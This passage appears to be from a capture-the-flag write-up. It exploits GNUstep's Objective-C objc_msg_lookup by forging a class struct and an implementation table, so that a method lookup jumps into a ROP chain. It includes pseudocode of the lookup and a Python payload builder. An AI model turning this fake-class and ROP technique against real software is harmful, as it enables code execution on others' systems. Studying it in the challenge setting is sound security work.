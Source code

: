 Pseudocode:

```  
objc_msg_lookup(instance* inst, uint64* sel):  
   uint64 selv = *sel  
   class * cls = inst->class # offset 0x00

   imp_tbl_struct * its = cls->its # offset 0x40  
   uint32 sel_low = selv & 0xffffffff  
   uint32 sel_high = selv >> 32

   if (sel_low + (sel_high << 5)) >= its->length: # offset 0x28  
       # ... irrelevant code  
   else:  
       return its->table[sel_low][sel_high] # offset 0x00  
```

## The Attack

For our attack payload, we put a pointer to our fabricated class struct
further  
in the payload at offset 0x00, and then left a bit of space for a ROP chain
and  
data.

After that, we added another pointer, which through our crafted class pointer  
lies exactly at offset 0x40, meaning it is the pointer to the implementation  
table struct.

We offset the implementation table struct in such a way, that it points
directly  
after the pointer to it, so that in the payload, all the pointers lie next to  
each other.

Since the observed selector value in the `gnustep-base` library from
`libs.zip`  
was 0x0000001500000064, assuming the values are the same on the remote server,  
we can adjust the first table-level to point just after the previous pointer
in  
the payload, and similar for the second table level.

This leaves us with this payload:

```py  
method = 0x4141414141414141  
base_vtable = 0x90  
base_data = 0x80

payload = (  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)  
```
